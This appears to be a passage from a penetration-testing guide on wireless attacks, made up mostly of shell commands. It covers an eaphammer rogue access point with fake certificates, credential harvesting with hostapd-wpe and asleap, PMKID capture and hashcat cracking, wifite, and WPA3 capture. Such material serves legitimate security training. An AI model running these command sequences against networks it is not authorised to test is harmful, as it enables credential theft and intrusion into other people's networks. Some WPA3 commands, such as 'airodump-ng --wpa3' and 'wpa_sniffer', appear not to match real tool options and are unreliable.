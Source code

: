 **EAP-TLS Certificate Attacks:**
```bash
# Generate fake certificates
sudo ./eaphammer --cert-wizard --cn "Secure Corporation CA"

# Run attack targeting certificate validation
sudo ./eaphammer -i wlan0 --channel 6 --auth tls --essid "Secure_Network" --creds --private-key /path/to/key.pem --server-cert /path/to/cert.pem
```

### WPA Enterprise Client Credential Harvesting

```bash
# Start hostapd-wpe
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

# Extract captured credentials
cat /var/log/hostapd-wpe.log | grep "username"
cat /var/log/hostapd-wpe.log | grep "password"

# Crack captured challenge/response
asleap -C challenge -R response -W wordlist.txt
```

![WPA Enterprise Attack Path](./images/wpa_enterprise_attack.png)
*Figure 15.3: WPA Enterprise Attack Flow showing authentication interception points*

## Advanced WiFi Cracking Techniques

### PMKID Attack Method

PMKID attacks allow cracking WPA/WPA2 without client interaction:

```bash
# Using hcxdumptool to capture PMKID
sudo hcxdumptool -i wlan0mon -o pmkid_capture.pcapng --enable_status=1

# Convert the capture format
sudo hcxpcapngtool -o hash.hc22000 pmkid_capture.pcapng

# Crack with hashcat
hashcat -m 22000 hash.hc22000 wordlist.txt
```

**Automated PMKID Attack with Wifite:**
```bash
sudo wifite --pmkid --dict wordlist.txt
```

### WPA3 Assessment

WPA3 networks require specialized tools and techniques:

```bash
# Scanning for WPA3 networks
sudo airodump-ng --wpa3 wlan0mon

# Check for downgrade attacks
sudo wpa_sniffer -i wlan0mon -c 6 --standard-frames

# Attempt dragonfly handshake capture
sudo hcxdumptool -i wlan0mon -o wpa3_networks.pcapng --enable_status=3
```
